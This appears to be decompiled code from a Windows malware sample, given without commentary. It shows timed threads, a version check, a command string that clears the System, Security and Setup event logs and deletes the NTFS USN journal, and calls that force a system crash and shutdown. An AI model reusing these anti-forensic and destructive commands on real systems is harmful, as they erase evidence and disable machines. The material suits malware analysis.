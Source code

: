 ```cpp
  FUN_100070fa();
  CreateThread((LPSECURITY_ATTRIBUTES)0x0,0,FUN_1000a0fe,(LPVOID)0x0,0,(LPDWORD)0x0);
  param_4 = (HANDLE)0x0;
  param_1 = 0;
  param_3 = (LPCWSTR)0x0;
  param_2 = (HANDLE)0x0;
  FUN_10008282((uint *)&param_4,&param_1,(uint *)&param_3,(uint *)&param_2);
  dwBytes = 4;
  dwFlags = 8;
  hHeap = GetProcessHeap();
  local_8 = (int *)HeapAlloc(hHeap,dwFlags,dwBytes);
  if (local_8 != (int *)0x0) {
    *local_8 = (int)param_3 * 60000;
    hHeap = CreateThread((LPSECURITY_ATTRIBUTES)0x0,0,FUN_1000a274,local_8,0,(LPDWORD)0x0);
    if (hHeap == (HANDLE)0x0) {
      dwFlags = 0;
      lpMem = local_8;
      hHeap = GetProcessHeap();
      HeapFree(hHeap,dwFlags,lpMem);
    }
  }
  Sleep((int)param_4 * 60000);
  if ((DAT_1001f104 & 0x10) != 0) {
    FUN_10001eef();
  }
  Sleep((int)param_2 * 60000);
  if ((DAT_1001f144 & 2) != 0) goto LAB_1000811b;
  memset(&local_11c,0,0x114);
  local_11c.dwOSVersionInfoSize = 0x114;
  BVar2 = GetVersionExW((LPOSVERSIONINFOW)&local_11c);
  if (BVar2 == 0) goto LAB_1000811b;
  if ((local_11c.dwMajorVersion != 5) ||
     ((local_11c.dwMinorVersion != 1 && (local_11c.dwMinorVersion != 2)))) {
    if (local_11c.dwMajorVersion != 6) goto LAB_1000811b;
    if ((local_11c.dwMinorVersion != 0) && (local_11c.dwMinorVersion != 1)) goto LAB_1000811b;
  }
  FUN_10006bb0(local_4a1c);
  iVar3 = FUN_10007d6f(local_4a1c);
  if (iVar3 == 0) goto LAB_1000811b;
  do {
    ExitProcess(0);
LAB_1000811b:
    Sleep(param_1 * 60000);
    wsprintfW(local_a1c,
                            
              L"wevtutil cl Setup & wevtutil cl System & wevtutil cl Security & wevtutil clApplication & fsutil usn deletejournal /D %c:"
              ,(uint)DAT_1001f148);
    local_21e = 0;
    FUN_100083bd(3);
    if ((DAT_1001f144 & 1) != 0) {
      hModule = GetModuleHandleA("ntdll.dll");
      if ((hModule != (HMODULE)0x0) &&
         (pFVar4 = GetProcAddress(hModule,"NtRaiseHardError"), pFVar4 != (FARPROC)0x0)) {
        (*pFVar4)(0xc0000350,0,0,0,6,&param_3);
      }
      BVar2 = InitiateSystemShutdownExW((LPWSTR)0x0,(LPWSTR)0x0,0,1,1,0x80000000);
      if (BVar2 == 0) {
        ExitWindowsEx(6,0);
      }
    }
  } while( true );
}
```